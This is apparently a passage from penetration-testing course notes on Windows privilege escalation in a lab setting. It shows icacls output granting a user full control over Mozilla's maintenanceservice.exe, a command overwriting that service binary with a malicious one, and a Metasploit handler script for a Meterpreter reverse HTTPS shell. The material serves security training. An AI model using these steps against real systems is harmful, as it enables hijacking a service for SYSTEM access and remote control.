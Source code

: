 {% hint style="info" %}
The exploit runs and executing `icacls` again shows the following entry for our user: `WINLPE-WS02\htb-student:(F)`. This means that our htb-student user has full control over the maintenanceservice.exe binary, and we can overwrite it with a non-corrupted version of our malicious binary.
{% endhint %}

{% code fullWidth="true" %}
```cmd-session
C:\htb> icacls 'C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe'

C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe NT AUTHORITY\SYSTEM:(F)
                                                                          BUILTIN\Administrators:(F)
                                                                          WINLPE-WS02\htb-student:(F)
```
{% endcode %}

<mark style="color:green;">**Replacing File with Malicious Binary**</mark>

{% hint style="warning" %}
We can overwrite the `maintenanceservice.exe` binary in `c:\Program Files (x86)\Mozilla Maintenance Service` with a good working copy of our malicious binary created earlier before proceeding to start the service. In this example, we downloaded two copies of the malicious binary to `C:\Users\htb-student\Desktop`, `maintenanceservice.exe` and `maintenanceservice2.exe`. Let's move the good copy that was not corrupted by the exploit `maintenanceservice2.exe` to the Program Files directory, making sure to rename the file properly and remove the `2` or the service won't start. The `copy` command will only work from a cmd.exe window, not a PowerShell console.
{% endhint %}

{% code fullWidth="true" %}
```cmd-session
C:\htb> copy /Y C:\Users\htb-student\Desktop\maintenanceservice2.exe "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"

```
{% endcode %}

<mark style="color:green;">**Metasploit Resource Script**</mark>

Next, save the below commands to a [Resource Script](https://docs.rapid7.com/metasploit/resource-scripts/) file named `handler.rc`.

```shell-session
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_https
set LHOST <our_ip>
set LPORT 8443
exploit
```

<mark style="color:green;">**Launching Metasploit with Resource Script**</mark>

```shell-session
mrroboteLiot_1@htb[/htb]$ sudo msfconsole -r handler.rc 
```
